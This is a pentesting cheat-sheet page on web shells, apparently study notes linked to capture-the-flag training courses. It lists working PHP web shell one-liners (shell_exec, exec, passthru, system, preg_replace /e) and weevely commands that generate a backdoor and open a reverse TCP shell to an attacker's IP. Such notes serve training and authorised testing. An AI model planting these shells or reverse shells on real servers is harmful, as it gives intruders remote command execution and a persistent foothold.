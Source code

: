 # Web shell

[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)
[![fileuploadattacks](../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)

<div class="row row-cols-lg-2"><div>

A web shell is a shell that is *usually* accessed from a browser. When possible, we want to use it as a foothold to move to reverse shell.

The language used in the web shell is determined by the language the target web server understand, such as PHP, JavaScript, or .NET. ✨

For JavaScript, you need to find a way for the website to execute your web shell. For PHP, visit the web shell URL.

⚠️ Password protect your webshells during assignments and/or randomize the parameter name <small>(e.g., don't use `cmd`)</small>.
</div><div>

On Kali, you can use the preinstalled web shells in `wordlists`, or install and use [SecLists webshells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells).

```shell!
$ ls /usr/share/webshells
$ ls /usr/share/seclists/Web-Shells/
```

You may use the web shell to pop a [reverse shell](reverse_shell.md). Some payloads may not work smoothly according to the target configuration. Try:

```ps
bash -c "<reverse shell payload here>"
```
</div></div>

<hr class="sep-both">

## PHP web shell

<div class="row row-cols-lg-2"><div>

PHP web shells are PHP files such as `webshell.php`. Once uploaded on the target, you can execute them by browsing them with a browser.

Most web shells below are using GET to take to command to run. For instance, `[...]/webshell.php?cmd=id` to run the `id` command.

Most commands below are complex to handle redirections, multi-line results, default command, etc. You can always get by using simple payloads like `<?=system($_GET[0]??true);?>` and using `?0=whoami`.

<br>

#### shell_exec

This is a compacted web shell with `shell_exec`  ([doc](https://www.php.net/manual/en/function.shell-exec.php)).

```php!
<?="<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>"; ?>
```

You may replace `?=` with `?php echo ` if not supported.

<br>

#### weevely3

This is a web shell using [weevely3](https://github.com/epinna/weevely3) (3.0k ⭐).

```ps
# generate a webshell.php protected by "password"
$ weevely generate <password> webshell.php
# connect to the web shell
$ weevely URL/webshell.php <password>
# see help
# ex: create a reverse shell
$ :backdoor_reversetcp IP PORT
```

<br>

#### phpbash

You can use the semi-interactive [phpbash](https://github.com/Arrexel/phpbash) <small>(0.8k ⭐, 2018 🪦)</small>.


</div><div>

#### preg_replace

[![php_preg_replace](../../../_badges/rootme/web_server/php_preg_replace.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-preg_replace)

In PHP < 7.0.0, we could execute PHP code in `preg_replace` for each match found <small>(since PHP 5.5, there is a deprecation warning)</small>.

```php!
<?php
echo preg_replace('/a/e', 'system("whoami");', 'a');
```

<br>

#### exec

This is a web shell using `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php!
<?php
$output = "";
exec(($_GET["cmd"] ?? "whoami")." 2>&1", $output);
echo "<pre>".implode('<br>', $output)."</pre>";
?>
```

#### passthru

This is a web shell using `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php!
echo "<pre>";
echo passthru(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
```

#### system

This is a web shell using `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php!
<?php
echo "<pre>";
echo system(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
?>
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [wso-webshell](https://github.com/mIcHyAmRaNe/wso-webshell)
* [jspbrowser](https://github.com/tennc/webshell/tree/master/jsp/jspbrowser)
* [webwrap](https://github.com/mxrch/webwrap)
</div><div>
</div></div>